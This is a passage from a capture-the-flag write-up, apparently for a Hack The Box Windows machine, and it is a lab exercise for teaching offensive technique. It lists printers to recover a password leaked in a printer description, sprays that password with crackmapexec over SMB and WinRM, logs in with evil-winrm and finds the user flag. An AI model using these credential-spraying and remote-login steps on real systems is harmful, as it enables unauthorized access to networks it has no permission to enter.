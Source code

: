 {% highlight sh %}
enumprinters
{% endhighlight %}

{% highlight text %}
	flags:[0x800000]
	name:[\\FUSE\HP-MFT01]
	description:[\\FUSE\HP-MFT01,HP Universal Printing PCL 6,Central (Near IT, scan2docs password: $fab@s3Rv1ce$1)]
	comment:[]
{% endhighlight %}


Great! We found a password. 
I'm gonna use that password with the user list that we got earlier. 

{% highlight sh %}
cme smb fuse -u rpc-users -p '$fab@s3Rv1ce$1'
{% endhighlight %}

{% highlight text %}
SMB         10.10.10.193    445    FUSE             [*] Windows Server 2016 Standard 14393 x64 (name:FUSE) (domain:fabricorp.local) (signing:True) (SMBv1:True)
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\Administrator:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
SMB         10.10.10.193    445    FUSE             [+] fabricorp.local\svc-print:$fab@s3Rv1ce$1 
{% endhighlight %}

There is match for the user <strong><cite>svc-print</cite></strong>.

Let's try cme again but this time with the winrm option instead of smb.

{% highlight sh %}
cme winrm fuse -u rpc-users -p '$fab@s3Rv1ce$1'
{% endhighlight %}

{% highlight text %}
WINRM       10.10.10.193    5985   FUSE             [*] Windows 10.0 Build 14393 (name:FUSE) (domain:fabricorp.local)
WINRM       10.10.10.193    5985   FUSE             [*] http://10.10.10.193:5985/wsman
WINRM       10.10.10.193    5985   FUSE             [+] fabricorp.local\svc-print:$fab@s3Rv1ce$1 (Pwn3d!)
{% endhighlight %}

<strong>Pwn3d!</strong>

We can connect to the box with <strong><cite>evil-winrm</cite></strong>.

{% highlight sh %}
evil-winrm -i 10.10.10.193 -u svc-print -p '$fab@s3Rv1ce$1'
{% endhighlight %}

The user flag is inside the desktop folder!

{% highlight text %}
*Evil-WinRM* PS C:\Users\svc-print\Documents> gci \users\svc-print\desktop


    Directory: C:\users\svc-print\desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        11/5/2020   1:46 AM             34 user.txt
{% endhighlight %}
